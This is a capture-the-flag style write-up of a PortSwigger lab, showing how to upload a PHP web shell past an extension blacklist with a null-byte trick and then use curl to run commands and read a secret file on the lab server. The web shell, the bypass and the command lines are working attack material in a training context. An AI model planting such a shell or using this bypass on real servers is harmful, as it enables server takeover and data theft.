 # Web shell upload via obfuscated file extension | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension), you'll learn: Web shell upload via obfuscated file extension! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216023847.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216023859.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216023906.png)

In previous labs, we found the image upload function is vulnerable.

**We can try to upload a PHP web shell:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024234.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024251.png)

**However, it rejects because we're not uploading a jpg or png file.**

**To bypass this, we can rename our web shell file to `webshell.php.jpg`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024416.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024425.png)

We successfully uploaded the PHP web shell!

**Let's verify does it work or not:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities]
└─# curl https://0a7200ad036e3545c4780f4d007600f9.web-security-academy.net/files/avatars/webshell.php.jpg --get --data-urlencode "cmd=cat /home/carlos/secret"
<?php system($_GET['cmd']); ?>
```

Nope.

**How about using a null byte(`%00`) and append the `.jpg` extension?**

By doing that, the null byte will cancel out the `.jpg` extension.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-5/images/Pasted%20image%2020221216024839.png)

**File uploaded, does it work?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities]
└─# curl https://0a7200ad036e3545c4780f4d007600f9.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=id"                     
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

**It worked! Let's `cat` the `secret` file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities]
└─# curl https://0a7200ad036e3545c4780f4d007600f9.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
FFNCTnwaWTITzEr6MKrDhRN5FfTAS3XV
```

# What we've learned:

1. Web shell upload via obfuscated file extension